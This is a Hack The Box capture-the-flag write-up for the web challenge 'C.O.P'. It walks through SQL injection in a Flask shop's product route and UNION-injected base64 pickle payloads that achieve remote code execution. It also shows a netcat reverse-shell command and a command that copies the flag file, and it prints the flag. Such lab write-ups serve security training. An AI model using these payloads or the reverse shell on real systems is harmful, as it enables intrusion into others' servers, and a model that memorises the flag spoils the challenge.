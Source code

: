 # Writeup "C.O.P"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                           </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/cop              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-c-o-p-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                          </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                   </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-28                                             </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-12-16                                             </td></tr>
</table>

## Description

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

## Solution

We receive an IP and port to a server and a zip file containing the _Python Flask_ application deployed on the server. According to the `Dockerfile`, the application is deployed in the `/app` directory and the `supervisord.conf` file lists paths to log files. The page displays a basic pickle-themed webshop. Since the application uses the Python package `pickle`, this might be a hint.

<p align="center">
   <img src="includes/cop-01.png" />
</p>

The page does not seem have any fields for user input and no cookies are used. The only place where any parameter can be manipulated is the endpoint for a product detail page, `/view/<product_id>`.

When we inspect the files `routes.py`, `models.py`, and `database.py`, we see that the value of `<product_id>` is used for a _sqlite3_ database query without ever being sanitized! As a test, we try the payload `/view/3';--` and the system displays the page correctly:

<p align="center">
   <img src="includes/cop-02.png" />
</p>

Now to find out how to exploit the vulnerability. As a first step, we try to execute the following SQLite commands using the vulnerability:

```
/view/3';INSERT INTO products (data) VALUES ("gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==");--
/view/3';UPDATE products SET data='gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==' WHERE id=3;--
```

However, this returns an internal server error. When we run the application locally using docker, we get the following error message in the terminal:

``` bash
sqlite3.Warning: You can only execute one statement at a time.
```

Only one query can be used at a time; query stacking is therefore not possible. We try to use a `UNION` statement instead:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION SELECT data FROM products WHERE id='3';--
```

This works and displys the "Dill Pickle Jar" page instead of the "Pickle Shirt" page.

Now we have to include a payload. Further analysis of the source code shows that the shop's products are stored in the database as pickled objects. When they are retrieved for generating a web page, these pickled objects are unpickled without any security precautions. The unpickling happens using the custom template filter `pickle` defined in `app.py`.

A web search for _"flask pickle vulnerability"_ gives us a web page describing pickeling in Python and why it is vulnerable when improperly used and how to exploit it [^1]. A second page has the source code for a small tool for generating suitable payloads [^2]. Using this tool, we generate a first test payload:

``` bash
> python3 exploit.py "uname -a"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==
```

We adapt our query so that the page receives our payload instead of the product[^4]. As soon as the page unpickles the payload, it will get executed:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION VALUES ("Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==");--
```

We are successful! In the docker output, we see the output of our command:

<p align="center">
   <img src="includes/cop-03.png" />
</p>

After a lot of experimenting[^3], we find a working combination for a netcat shell. The command executed on the target is:

``` bash
> python3 exploit.py "nc host.docker.internal 1234 -e /bin/sh"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVm5jIGhvc3QuZG9ja2VyLmludGVybmFsIDEyMzQgLWUgL2Jpbi9zaApwMQp0cDIKUnAzCi4=
```

It is very important to use `host.docker.internal` as the target host for the reverse shell. Furthermore, it was not possible to use `/bin/sh -i` as command since this would always trigger an error on the target machine.

On the host machine, the following command was executed:

``` bash
> nc -l -p 1234
```

This resulted in a working reverse shell:

<p align="center">
   <img src="includes/cop-04.png" />
</p>

However, when trying to replicate this solution on the real system, we soon realize that this solution does not work. Apparently, it is not possible to access external IP addresses from a Docker container.

This setback leads to the realization that a reverse shell had been overkill. Since we can already execute arbitrary shell commands at the target machine, we can just copy the flag to a location where we can access it on the web site.

We create a new payload:

``` bash
> python3 exploit.py "cp /app/flag.txt /app/application/static/flag.txt"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVmNwIC9hcHAvZmxhZy50eHQgL2FwcC9hcHBsaWNhdGlvbi9zdGF0aWMvZmxhZy50eHQKcDEKdHAyClJwMwou
```

And after calling the vulnerable page once using this payload, we find the flag where we just put it:

<p align="center">
   <img src="includes/cop-05.png" />
</p>

The flag is therefore:

```
HTB{n0_m0re_p1ckl3_pr0paganda_4u}
```

### Sources

[^1]: https://davidhamann.de/2020/04/05/exploiting-python-pickle/
[^2]: https://github.com/shafdo/pickle-payload-gen-python3
[^3]: https://www.varonis.com/blog/netcat-commands
[^4]: https://www.sqlitetutorial.net/sqlite-union/

